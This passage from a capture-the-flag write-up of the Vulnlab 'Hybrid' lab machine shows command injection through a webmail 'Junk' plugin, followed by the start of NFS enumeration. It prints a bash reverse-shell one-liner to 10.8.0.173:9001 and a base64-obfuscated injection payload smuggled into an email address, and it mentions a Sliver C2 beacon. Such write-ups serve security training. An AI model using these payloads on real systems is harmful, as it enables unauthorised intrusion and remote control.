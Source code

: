 Let's compose an email now and send it back to ourselves to exploit the plugin. (All I did was compose an email and send it to `admin@hybrid.vl`).

Additionally, on my local machine, I'll start a simple python server on port `9001` to receive the request. `python3 -m http.server 9001`

![](/images/vulnlab/hybrid-vl/g.png)

We'll now browse to the email in our inbox after sending it and click the `Junk` icon on the top of the email.

![](/images/vulnlab/hybrid-vl/i.png)

Upon clicking this, we can see that a GET request was sent from `10.10.242.86` back to our local machine. This means that we can execute commands and get a reverse shell on the target machine.
  
![](/images/vulnlab/hybrid-vl/j.png)

Let's develop our command that we want to run, in this case I just used `Revshells.com` to generate a bash one-liner.

We'll also combine what we know previously to craft the following payload. Let's also set up a `netcat` listener to catch the web request and get us a shell. Command we are trying to run: `/bin/bash -i >& /dev/tcp/10.8.0.173/9001 0>&1`
`admin%26echo${IFS}L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjguMC4xNzMvOTAwMSAwPiYx|base64${IFS}-d|bash%26%40hybrid.vl`

If we do all of the same steps as outlined previously and use the `Junk` plugin in a new email, we can see that a reverse shell was spawned as user `wwwdata`.

![](/images/vulnlab/hybrid-vl/q.png)

# Internal Mounted NFS Exploit

Looking around the box initially, there wasn't anything that I saw that screamed out at me out of the blue. I ended up dropping `Linpeas` to the box through a Sliver C2 beacon that I created, but didn't really see anything with it either.

Upon searching some more, I decided to turn our attention back to NFS to potentially find any vulnerabilities with it. We can find the configurations for NFS in `/etc/export`

```
# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/opt/share *(rw,no_subtree_check)  
```
